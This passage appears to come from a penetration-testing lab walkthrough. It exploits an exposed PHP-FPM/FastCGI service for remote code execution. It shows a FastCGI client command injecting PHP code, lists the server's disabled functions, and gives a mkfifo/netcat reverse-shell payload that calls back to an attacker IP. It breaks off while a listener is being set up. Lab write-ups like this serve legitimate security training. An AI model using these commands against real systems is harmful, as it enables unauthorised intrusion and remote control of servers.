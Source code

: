 ### PHP-FPM/FastCGI Remote Code Execution

Since we know that `FPM/FastCGI` is running on port 9000, we do a bit of research and find the [Fastcgi PHP-FPM Client && Code Execution](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75) script on GitHub. To execute arbitrary PHP code, we have to know the path that shows where the files are stored on the server. Luckily we find a phpinfo page which reveals the entire path.

![phpinfo](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_99_image_2_2c7WBYCT.png)

phpinfo

Let's try executing the `id` command using the PHP command `system`.

```
┌──(kali㉿kali)-[~]
└─$ python3 fpm.py -c "<?php system('id'); ?>" -p 9000 192.168.120.158 /var/www/html/planetexpress/plugins/PicoTest.php | head -n 10
PHP message: PHP Warning:  system() has been disabled for security reasons in php://input on line 1Content-type: text/html; charset=UTF-8

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009; text-decoration: none; background-color: #fff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse; border: 0; width: 934px; box-shadow: 1px 2px 3px #ccc;}
Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>
BrokenPipeError: [Errno 32] Broken pipe
```

We can also see that some PHP functions are disabled in the `disable_functions` row of the phpinfo page:

```plaintext
system,exec,shell_exec,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,
```

Luckily, `passthru` is not disabled and can be used to execute arbitrary OS commands. We will use the following payload (in our exploit) to get a reverse shell. Note that we used backslashes in the payload to escape the double quotes.

```
  rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc 192.168.118.18 80 > /tmp/x\"
```

Now, let's set up a `Netcat` listener with -n (numeric-only IP addresses, no DNS), -l (listen mode, for inbound connects), -v (verbose [use twice to be more verbose]), and -p ( local port number) flags on port 80.
